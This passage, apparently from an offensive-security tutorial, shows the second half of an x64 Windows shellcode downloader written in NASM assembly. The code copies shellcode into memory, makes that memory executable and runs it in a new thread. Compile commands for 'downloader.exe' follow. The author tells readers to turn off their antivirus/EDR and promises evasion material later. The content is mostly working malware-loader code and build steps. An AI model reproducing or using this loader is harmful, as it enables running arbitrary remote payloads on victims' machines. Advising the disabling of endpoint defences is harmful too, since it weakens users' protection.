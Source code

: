 ```nasm
    
    mov rcx, [rel mem_buffer]          ; destination
    lea rdx, [rel chunk]               ; source
    mov r8d, [rel totalBytes]                      ; size
    call RtlMoveMemory

    ; ---- Set executable ----
    ; now that the shellcode data is now stored in the assigned memory address, let's make that memory address executable
    xor rdx, rdx
    mov rcx, [rel mem_buffer]
    mov edx, [rel totalBytes]
    mov r8d, 0x20                  ; PAGE_EXECUTE_READ
    lea r9, [rel oldProtect]
    call VirtualProtect

    ; ---- Create thread ----
    ; point a thread to the memory address of our shellcode and execute it!
    xor rcx, rcx                   ; LPSECURITY_ATTRIBUTES = NULL
    xor rdx, rdx                   ; dwStackSize = 0
    mov r8, [rel mem_buffer]           ; LPTHREAD_START_ROUTINE
    xor r9, r9                     ; lpParameter = NULL
    mov rax, 0
    call CreateThread
    mov [rel hThread], rax

    ; ---- Wait for shellcode ----
    mov rcx, [rel hThread]
    mov rdx, 0xFFFFFFFF            ; INFINITE
    call WaitForSingleObject
    mov rcx, [rel hThread]
    call CloseHandle

    ; ---- Free memory ----
    mov rcx, [rel mem_buffer]
    mov rdx, 0
    mov r8d, 0x8000                ; MEM_RELEASE
    call VirtualFree

    ; Exit
    xor ecx, ecx
    call ExitProcess
```

Go ahead and compile that and run it.  Be sure to turn off your AV/EDR for now to have a smooth learning experience.  This isn't exactly EDR bypass material just yet 😸

```bash
nasm -f win64 downloader.asm
x86_64-w64-mingw32-gcc downloader.obj -o downloader.exe -lwininet -lkernel32
```
